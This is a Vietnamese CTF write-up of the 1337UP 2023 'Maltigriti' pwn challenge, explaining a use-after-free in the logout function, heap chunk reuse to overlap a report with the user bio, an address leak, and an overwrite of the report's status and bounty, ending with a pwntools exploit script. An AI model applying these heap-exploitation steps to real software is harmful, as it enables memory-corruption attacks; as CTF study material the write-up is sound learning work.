 # [1337UP-2023] Maltigriti

<p>Chương trình mô phỏng hệ thống bug bounty, cho phép đăng ký user, tạo report, gửi report,... Mọi report đều mặc định bị đánh dấu là duplicate (status = 'D'). Ta cần tìm cách chuyển trạng thái của report thành Accepted (status = 'A') và có tổng bounty >= 1337 để lấy flag. Nhìn vào pattern code ta có thể đoán được đây là dạng bài về heap -> Tập trung vào những đoạn thao tác malloc/free/read/write.</p>

<p>Trong hàm logout, <code>free(user->bio)</code> (dòng 94) nhưng không set con trỏ về NULL -> Use After Free.</p>

![alt text](/thanhlai/post/pwnable/image/post12/image.png)

<p>Hàm edit_user cho phép nhập kích thước của bio để malloc. Sau đó, dùng fgets để nhập dữ liệu vào vùng vừa malloc -> Vậy nếu như ta <code>free(user->bio)</code> (với kích thước của report khi malloc) rồi malloc ra report mới thì vùng nhớ của report mới sẽ trùng với vùng nhớ của bio trên heap. Cuối cùng, gọi hàm edit_user để ghi đè lên <code>report->status</code> và <code>report->bounty</code> rồi gọi hàm buy_swag_pack (case 5) để in flag. Còn một việc nữa là tính giá trị của <code>report->user</code> sao cho trùng với địa chỉ user trên heap sau khi đăng ký. Vì giá trị <code>report->user</code> đã trỏ tới user từ lúc tạo ra report mới nên sau khi tạo ra một report mới (kích thước bằng bio) thì giá trị tại địa chỉ mà <code>user->bio</code> trỏ tới sẽ bằng địa chỉ user - tức là ta có thể leak qua <code>user->bio</code> (dòng 72).</p> 

![alt text](/thanhlai/post/pwnable/image/post12/image-1.png)

<p>Ta chọn option 0 và 3 để đăng ký user và tạo một report. Quan sát, tham số đầu tiên (giá trị của RDI) của hàm malloc là 0xc0 (192) byte.</p>

![alt text](/thanhlai/post/pwnable/image/post12/image-2.png)

<p>Tiếp theo, đăng ký user mới với kích thước bio là 192. Lúc này, <code>user</code> đang trỏ tới địa chỉ 0x5555555592a0 và <code>user->bio</code> đang trỏ tới địa chỉ 0x555555559300. Vậy nếu đúng như suy luận thì nếu như logout và tạo report mới thì địa chỉ mà <code>report</code> trỏ tới sẽ là 0x555555559300.</p>

![alt text](/thanhlai/post/pwnable/image/post12/image-3.png)

<p>Lúc này, <code>user->bio</code> và <code>report</code> đều trỏ tới 0x555555559300 -> Vậy là ta có thể kiểm soát dữ liệu của report qua hàm edit_user. Mà giá trị tại 0x555555559300 là 0x5555555592a0 -> Khi gọi hàm edit_user, sẽ leak địa chỉ user qua <code>user->bio</code>. Cuối cùng, cần lưu ý mặc dù <code>report->status</code> là 1 byte nhưng vẫn cần padding thêm 7 null byte nữa mới tới <code>report->bounty</code> (có vẻ compiler tự padding thêm để kích thước struct chia hết cho 8).</p>

![alt text](/thanhlai/post/pwnable/image/post12/image-4.png)

<p>Script exploit:<p>

```
from pwnable import *

p = process('./maltigriti')

def sla(msg, data): 
    return p.sendlineafter(msg, data)

sla(b'menu> ', b'0')
sla(b'Enter your name> ', b'thanhlai')
sla(b'Enter your password> ', b'thanhlai')
sla(b'How long is your bio>', b'192')
sla(b'Enter your new bio>', b'hehehe')

sla(b'menu> ', b'6')
sla(b'menu> ', b'2')
sla(b'Enter your report title> ', b'hehehe')
sla(b'Please enter the content of your report> ', b'hehehe')

sla(b'menu> ', b'1')
p.recvuntil(b"Your current bio is: ")
leaked_addr = u64(p.recv(6).ljust(8, b'\x00'))
payload = flat(
    p64(leaked_addr),
    p64(ord('A')),
    p64(1337)
)
sla(b'Enter your new bio> ', payload)

sla(b'menu> ', b'5')

p.interactive()
```

<p>Kết quả:</p>

![alt text](/thanhlai/post/pwnable/image/post12/image-5.png)